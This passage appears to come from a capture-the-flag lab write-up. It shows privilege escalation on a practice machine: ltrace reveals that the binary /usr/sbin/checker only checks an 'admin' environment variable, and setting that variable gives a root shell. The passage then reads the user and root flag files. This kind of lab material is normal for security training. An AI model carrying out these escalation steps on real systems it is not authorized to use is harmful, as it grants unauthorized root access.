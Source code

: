 
Try to run `/usr/sbin/checker`

```bash
/usr/sbin/checker
	Not an Admin
```

If `ltrace` is present on the machine use it. If not, download the file with Meterpreter and check it in Kali with `ltrace` or `Ghidra`.

```bash
ltrace /usr/sbin/checker
```

```bash
getenv("admin") 		= nil
puts("Not an Admin") 	= 13
Not an Admin
+++ exited (status 0) +++
```

The binary requires the `admin` environment variable to be declared

```bash
export admin=thm
```

```bash
/usr/sbin/checker

# root shell
```

![root shell](.gitbook/assets/image-20230515125449356.png)

```bash
find / -type f -iname user.txt 2>/dev/null
cat /media/usb/user.txt

find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
```



<details><summary>Reveal Flag - user.txt: 🚩</summary></details>





<details><summary>Reveal Flag - root.txt: 🚩</summary></details>



------

